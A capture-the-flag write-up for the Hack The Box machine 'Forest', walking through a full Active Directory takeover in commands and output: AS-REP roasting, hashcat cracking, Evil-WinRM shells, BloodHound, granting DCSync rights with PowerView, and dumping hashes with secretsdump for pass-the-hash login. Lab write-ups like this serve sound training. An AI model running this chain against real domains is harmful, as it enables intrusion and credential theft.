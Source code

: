 ```yaml
---
permalink: /posts/HTB/Forest
title:  "HTB Forest"
author: Luc Kolen
description: "Forest is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - Windows
  - RPC
  - AS-Rep roasting
  - Hashcat
  - BloodHound
---
```

# 10.10.10.161 - Forest

- [10.10.10.161 - Forest](#101010161---forest)
  - [Open ports](#open-ports)
    - [TCP](#tcp)
    - [UDP](#udp)
  - [Enumerate users via RPC](#enumerate-users-via-rpc)
  - [AS-REP Roasting](#as-rep-roasting)
  - [Evil-WinRM](#evil-winrm)
  - [Privilege escalation](#privilege-escalation)
  - [TL;DR](#tldr)

## Open ports

### TCP

```bash
luc@kali:~/HTB/Forest$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.161
```

|Port|Service|
|---|---|
88/tcp|kerberos-sec
135/tcp|msrpc
139/tcp|netbios-ssn
389/tcp|ldap
445/tcp|microsoft-ds
464/tcp|kpasswd5?
593/tcp|ncacn_http
636/tcp|tcpwrapped
3268/tcp|ldap
3269/tcp|tcpwrapped
5985/tcp|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp|mc-nmf
47001/tcp|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp|msrpc
49665/tcp|msrpc
49666/tcp|msrpc
49667/tcp|msrpc
49671/tcp|msrpc
49676/tcp|ncacn_http
49677/tcp|msrpc
49684/tcp|msrpc
49706/tcp|msrpc

### UDP

```bash
luc@kali:~/HTB/Forest$ nmap -vv --reason -Pn -sU -A --top-ports=20 --version-all 10.10.10.161
```

|Port|Service|
|---|---|
53/udp|domain
123/udp|ntp

## Enumerate users via RPC

```bash
luc@kali:~/HTB/Forest$ rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
...
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

## AS-REP Roasting

Accounts that don't require pre authentication can be abused to get valid password hashes. GetNPUsers.py can be used to get these hashes.

```bash
luc@kali:~/HTB/Forest$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb/svc-alfresco -no-pass -dc-ip 10.10.10.161
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:413: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if domain is '':
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04
```

Hashcat can be used to crack this hash

```bash
luc@kali:~/HTB/Forest$ echo '$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04' > hashes
luc@kali:~/HTB/Forest$ hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt
...
$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04:s3rvice
...
```

The password for the user `svc-alfresco` is `s3rvice`.

## Evil-WinRM

These credentials can be used to get a shell via `Evil-WinRM` and to read the user.txt file

```bash
luc@kali:~/HTB/Forest$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
e5e4e47a************************
```

## Privilege escalation

```bash
luc@kali:~/HTB/Forest$ cp /opt/BloodHound/Ingestors/SharpHound.ps1 .
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> upload SharpHound.ps1
Info: Uploading SharpHound.ps1 to C:\Users\svc-alfresco\Desktop\SharpHound.ps1

Data: 1297080 bytes of 1297080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> Import-module ./SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/10/2020   4:18 AM          15449 20200610041827_BloodHound.zip
-a----        6/10/2020   4:18 AM          23611 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        6/10/2020   4:16 AM         972811 SharpHound.ps1
-ar---        9/23/2019   2:16 PM             32 user.txt


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> download 20200610041827_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\Desktop\20200610041827_BloodHound.zip to 20200610041827_BloodHound.zip

Info: Download successful!
```

Before starting Bloodhound we have to start Neo4j

```bash
luc@kali:~/HTB/Forest$ sudo neo4j console
```

![Neo4j login](/assets/images/HTB-Forest/1.a%20neo4j%20login.png)

Now we can start Bloodhound and import the data

```bash
luc@kali:/opt/BloodHound-Binaries$ sudo ./BloodHound --no-sandbox
```

![Bloodhound upload data](/assets/images/HTB-Forest/1.b%20Bloodhound%20upload%20data.png)

![Bloodhound shortest path to domain admin](/assets/images/HTB-Forest/1.c%20Bloodhound%20shortest%20path%20to%20domain%20admin.png)

We've access to svc-alfresco who has GenericAll permissions on the Exchange Windows Permissions group. This allows us to add svc-alfresco to this group. The Exchange Windows Permissions group has WriteDacl permissions on the domain. We can use this to grant DCSync privileges.

We need to use the dev branch of `PowerSploit` to use the `Add-DomainObjectAcl` function in `PowerView.ps1`.

```bash
luc@kali:/opt$ sudo git clone https://github.com/PowerShellMafia/PowerSploit/ -b dev
luc@kali:~/HTB/Forest$ cp /opt/PowerSploit/Recon/PowerView.ps1 .
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> upload PowerView.ps1
Info: Uploading PowerView.ps1 to C:\Users\svc-alfresco\Desktop\PowerView.ps1

Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> import-module ./powerview.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net group "Exchange Windows Permissions" svc-alfresco /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $password = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $credentials = New-Object System.Management.Automation.PSCredential ("htb\svc-alfresco", $password)
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> Add-DomainObjectAcl -Credential $credentials -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Now that we've DCSync rights we can use `secretsdump.py` to get all hashes and we can use those to get a shell via `Evil-WinRM`.

```bash
luc@kali:~/HTB/Forest$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py svc-alfresco:s3rvice@10.10.10.161
...
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
luc@kali:~/HTB/Forest$ evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
f048153f************************
```

## TL;DR

- Svc-alfresco doesn't have Kerberos Pre-Authentication enabled allowing us to find the password hash
- Crack the password hash
- BloodHound to find a path from Svc-alfresco to DCSync privileges
- Use those privileges to dump all hashes
- Use administrator hash to log in
